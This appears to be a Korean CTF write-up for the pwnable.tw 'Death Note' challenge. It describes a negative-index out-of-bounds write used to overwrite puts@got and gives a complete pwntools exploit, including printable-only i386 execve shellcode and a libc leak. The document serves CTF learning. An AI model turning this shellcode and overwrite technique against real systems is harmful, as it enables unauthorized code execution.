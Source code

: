 ```yaml
---
title: "[pwnable.tw]Death Note"
date: 2020-2-20
ctf: Pwnable.tw
layout: post
published : false
---
```


nx가 안걸려있다. 쉘코딩을 해주면 되는 문제다.

```
[*] '/vagrant/ctfs/pwnable.tw/death_note/death_note'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

printable한 범위의 글자밖에 사용못한다. 그리고 OOB가 터진다. 음수는 검사하지 않아서 원하는 주소에 값을 쓸 수 있게 된다. 그래서 puts@got에 값을 덮어서 쉘코드가 실행되게 하면 된다. 

쉘코드 어떻게 짰냐면`execve("/bin//sh");` 하기위해서  `/bin//sh` 를 스택에 push해주고 ebx에 값을 넣어주고 edx에 있는 주소 이용해서 쉘코드 뒤에 eip 다음 주소를 cd80으로 만들어줬다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'
e = ELF('./death_note')
#p = process('./death_note')
p = remote('chall.pwnable.tw',10201)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
note = 0x0804A060

def add(idx,name):
	sa('Your choice :','1')
	sa('Index :',str(idx))
	sla('Name :',name)

def show(idx):
	sa(':','2')
	sa(':',str(idx))

def delete(idx):
	sa(':','3')
	sa(':',str(idx))

# b*0x080487EA
shellcode = asm('''
push 0x33
pop eax
xor al, 0x33
push eax
push 0x68732f2f
push 0x6e69622f
push esp
pop ebx

push 0x33
pop eax
xor al, 0x33
dec ax
xor al, 50
push eax

push edx
pop eax
xor al, 32

pop edx

xor al, 40
xor [eax+0x46], dl

push eax
push edx
pop eax

xor al, 0x4d

push eax
pop edx
pop eax

xor [eax+0x47], dl

push 0x33
pop eax
xor al, 0x33
push eax
pop edx

push eax
push 0x40
pop eax
xor al, 75
''')

# b*0x080487CA
show(-32/4)
stdin = u32(p.recvuntil('\x0a')[-5:-1]) # _IO_2_1_stdin_+72
log.info('_IO_2_1_stdin_ : {}'.format(hex(stdin)))
libc_base = stdin - 0x1b25e8
log.info('libc_base : {}'.format(hex(libc_base)))
offset = (e.got['puts'] - note) / 4
show(offset)
log.info(str(offset))
#raw_input()

print hexdump(shellcode)
add(offset,shellcode)

p.interactive()
```